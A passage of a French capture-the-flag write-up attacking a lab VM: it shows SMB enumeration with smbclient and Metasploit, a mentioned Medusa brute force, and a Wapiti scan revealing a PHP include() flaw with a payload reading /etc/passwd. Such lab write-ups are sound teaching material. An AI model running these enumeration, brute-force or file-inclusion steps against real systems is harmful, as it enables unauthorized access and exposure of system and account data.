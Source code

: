 On tente d’accéder au partage via une connexion anonyme mais l'accès est refusé :  

```plain
$ smbclient -I 192.168.1.27 -U "" -N //UBUNTUVM/home
Domain=[MSHOME] OS=[Unix] Server=[Samba 3.0.26a]
tree connect failed: NT_STATUS_ACCESS_DENIED
```

*Metasploit* propose divers exploits pour *Samba* (*lsa\_transnames\_heap, chain\_reply, setinfopolicy\_heap*) mais aucun ne nous ouvre de porte.  

En revanche le module pour énumérer les utilisateurs donne de bons résultats.  

```plain
msf auxiliary(smb_enumusers) > set RHOSTS 192.168.1.27
RHOSTS => 192.168.1.27
msf auxiliary(smb_enumusers) > exploit

[*] 192.168.1.27 UBUNTUVM [ games, nobody, proxy, syslog, www-data, root, news, bin, mail, dhcp, daemon, sshd,
    man, lp, mysql, gnats, backup, sys, klog, vmware, list, irc, sync, uucp ] ( LockoutTries=0 PasswordMin=5 )
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

On profite de ces informations pour brute-forcer les comptes SMB avec *Medusa* mais force est de constater que les mots de passe résistent.  

On décide alors de se tourner vers le site web qui est tout aussi minimaliste que celui vu dans le cadre [du CTF VulnImage]({% link _posts/2014-04-15-Solution-du-CTF-VulnImage-de-VulnHub.md %}).  

L'index à la racine du site effectue une redirection via javascript sur laquelle *Wapiti* bute. Il suffit d'utiliser l'option -s pour lui donner un point de départ supplémentaire (output réduit) :  

```plain
./bin/wapiti http://192.168.1.27/ -s "http://192.168.1.27/index1.php?help=true&connect=true" -m "all,nikto,backup,htaccess"

[+] Lancement du module file
Eventuelle faille de type include() dans http://192.168.1.27/index1.php via une injection dans le paramètre connect
  Evil url: http://192.168.1.27/index1.php?help=true&connect=http%3A%2F%2Fwww.google.fr%2F%3F
Divulgation de fichiers sur un système Linux dans http://192.168.1.27/index1.php via une injection dans le paramètre connect
  Evil url: http://192.168.1.27/index1.php?help=true&connect=%2Fetc%2Fpasswd
```

man include
-----------

*Wapiti* a facilement trouvé une faille include() locale dans le paramètre *connect* de *index1.php*.  

L'inclusion donne malheureusement du fil à retordre. Effectivement on peut inclure des fichiers locaux en spécifiant le path absolu ou relatif mais il semble impossible d'élever cette faille en une exécution de commande.  
